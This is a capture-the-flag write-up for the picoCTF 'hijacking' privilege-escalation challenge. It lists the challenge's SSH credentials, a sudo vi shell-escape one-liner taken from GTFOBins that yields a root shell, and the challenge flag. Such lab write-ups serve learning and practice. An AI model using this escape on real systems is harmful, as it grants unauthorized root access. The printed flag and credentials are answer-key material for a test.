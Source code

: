 # hijacking
> Write-up author: jon-brandy

## DESCRIPTION:
<p align="justify">Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with. Through Social engineering, we've got the credentials to use on the server. SSH is running on the server.

saturn.picoctf.net 55292
Username: picoctf
Password: 3aKUWQv068
</p>

## HINTS:
- Check for Hidden files.
- No place like Home:)

## STEPS:
1. In this challenge, we're not given both binary and the source code.
2. Based from the tag and the hints, seems the objective is to perform privilege escalation.

![image](https://github.com/jon-brandy/CTF-WRITE-UP/assets/70703371/54669f53-63b3-4584-8076-9e940369ee37)


3. It's very clear and straighforward, searching on the internet for vim in GTFObins.
4. Found this result:

![image](https://github.com/jon-brandy/CTF-WRITE-UP/assets/70703371/bc85cb17-cfcb-411c-8b50-1851e9e1567f)


5. Great! Let's use this:

```
sudo vi -c ':!/bin/sh'
```

> RESULT

![image](https://github.com/jon-brandy/CTF-WRITE-UP/assets/70703371/1a1e628d-7d78-4ecf-bc5e-13047a1e4522)

## FLAG

```
picoCTF{pYth0nn_libraryH!j@CK!n9_f56dbed6}
```
